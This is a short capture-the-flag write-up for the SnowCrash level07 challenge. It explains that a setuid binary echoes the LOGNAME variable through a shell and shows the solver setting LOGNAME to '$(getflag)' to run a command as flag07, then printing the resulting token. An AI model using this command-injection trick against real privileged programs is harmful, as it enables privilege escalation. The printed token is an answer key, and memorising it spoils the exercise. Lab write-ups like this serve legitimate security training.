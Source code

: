 # Flag 07

In the level07 home directory we found a binary file `level07` owned by flag07 we executed the binary and it printed the filename `level07`
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

we used binary ninja to see waht the binary doing, and it's just calling /bin/echo and echoing the variable envirenment `LOGNAME`
so we just changed the LOGNAME vaiable content to execute the `getflag` command as FLAG07

```
level07@SnowCrash:~$ export LOGNAME="\$(getflag)"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ 

```